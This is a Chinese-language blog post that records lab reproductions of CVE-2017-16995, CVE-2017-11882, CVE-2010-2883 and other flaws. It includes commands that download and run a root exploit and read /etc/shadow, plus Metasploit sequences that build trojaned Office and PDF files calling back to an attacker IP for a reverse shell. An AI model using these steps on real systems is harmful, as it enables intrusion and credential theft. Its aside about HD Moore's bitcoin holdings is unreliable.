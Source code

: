 ```yaml
---
layout: post
title: "CVE-2017-16995 & CVE-2017-11882 etc . CVE漏洞复现记录 "
date: 2019-04-02
categories: jekyll update
---
```

### 漏洞复现
### 参考链接：https://github.com/B1eed/VulRec
### CVE-2017-16995 Ubuntu16.04
参考学习链接：https://zhuanlan.zhihu.com/p/35247850
```
影响版本： 
Linux内核：Linux Kernel Version 4.14 ~ 4.4 
Ubuntu版本：16.04.01~ 16.04.04
测试命令：cat /proc/version
执行命令：
wget http://cyseclabs.com/pub/upstream44.c
sudo apt install gcc
gcc -o test upstream44.c 
chmod +x test 
ll
./test
id
cat /etc/shadow
```
### [漏洞复现] CVE-2017-11882 通杀所有Office版本
```
此漏洞是由Office软件里面的 [公式编辑器] 造成的，由于编辑器进程没有对名称长度进行校验，导致缓冲区溢出，攻击者通过构造特殊的字符，可以实现任意代码执行。

举个例子，如果黑客利用这个漏洞，构造带有shell后门的office文件，当普通用户打开这个office文件，则电脑可以被黑客直接控制。
影响版本： 
office 2003 
office 2007 
office 2010 
office 2013 
office 2016
```
攻击命令记录：
```
search CVE-2017-11882  //查看有无该payload
use exploit/windows/smb/cve-2017-11882
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.23.154 // （渗透机IP）
set uripath 11882
exploit

# 生成攻击文件
python CVE-2017-11882.py -c "mshta http://192.168.23.154:8080/11882" -o 11882-3.doc //注意修改为渗透机IP地址

# 把对应msf的payload文件(rb后缀)放到对应目录，下面是绝对目录路径
cd /usr/share/metasploit-framework/modules/exploits/windows/smb
```
攻击成功

参考链接：https://zhuanlan.zhihu.com/p/35248996

### [漏洞复现] CVE-2010-2883 Adobe Reader 打开pdf电脑即刻中招
CVE-2010-2883漏洞原理：“Adobe Reader在处理CoolType字体文件的sing表时，存在栈溢出漏洞，当打开特制的恶意PDF文件时，可允许任意代码远程执行。”

影响版本：Adobe Reader 8.2.4 - 9.3.4

攻击命令记录：
```
# 搜索Adobe渗透模块  
search adobe_cooltype_sing
# 调用渗透模块
use exploit/windows/fileformat/adobe_cooltype_sing/
info
# 调用meterpreter载荷，反向连接到渗透机  
set payload windows/meterpreter/reverse_tcp  
# 设置Kali Linux的IP地址  
set LHOST 192.168.23.154  
# 设置本地监听端口  
set LPORT 8888  
# 设置带有后门程序的PDF文件  
set FILENAME PINGINGLAB.pdf  
# 执行渗透生成文件  
exploit 
# 将PDF木马文件拷贝至Kali Linux桌面
cp /root/.msf4/local/PINGINGLAB.pdf /root/Desktop/PINGINGLAB.pdf
# Metasploit开启shell监听会话，等待肉鸡上线
# 使用handler监听模块  
use exploit/multi/handler  
# 回弹一个tcp连接  
set payload windows/meterpreter/reverse_tcp  
# 设置监听IP地址（跟PDF木马文件一致）  
set LHOST 192.168.23.154 
# 设置监听的端口（跟PDF木马文件一致）  
set LPORT 8888  
# 开启监听  
exploit 
```

安装对应版本Adobe
参考网址：https://zhuanlan.zhihu.com/p/35249958

### [漏洞复现] CVE-2018-4878 Flash 0day
2018年2月1号，Adobe官方发布安全通报（APSA18-01），声明Adobe Flash 28.0.0.137及其之前的版本，存在高危漏洞（CVE-2018-4878）。

攻击者通过构造特殊的Flash链接，当用户用浏览器/邮件/Office访问此Flash链接时，会被“远程代码执行”，并且直接被getshell。

### [漏洞复现] CVE-2017-7494 隐藏7年之久的Linux版"永恒之蓝"出现了...
漏洞原理： 
Samba是在Linux或Unix系统上用来实现文件共享和打印服务的通信协议，也是很多家用的智能硬件设备例如NAS设备内置的协议，采用服务端口445。由于Samba内置函数is_known_pipename里面出现字符过滤问题，导致攻击者可以向共享目录传递恶意文件，导致被远程代码执行。

参考链接：
https://cvedetails.com/cve/CVE-2017-7494/
https://www.samba.org/samba/security/CVE-2017-7494.html

影响版本： 
Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本。

渗透代码： 
关于此Samba漏洞的渗透利用代码，最早发布的，便是鼎鼎大名的Metasploit创始人HD Moore。HD Moore出名，不仅仅在黑客和安全圈，在目前的币圈也是一位传奇，毕竟手握约40万个比特币，是世界上除了比特币创始人中本聪之外，持币量最多的人。就是这位“比你有钱又比你有才”的传奇人物，他在Samba漏洞公告的第二天，也就是2017年5月25号，就在github上公布了针对此漏洞的exp代码。当然，目前Metasploit框架也已经集成了这个exp代码。

参考链接：https://zhuanlan.zhihu.com/p/35321152

###  CVE-2018-15982FlashPlayer漏洞复现

参考链接：https://bbs.ichunqiu.com/thread-48986-1-1.html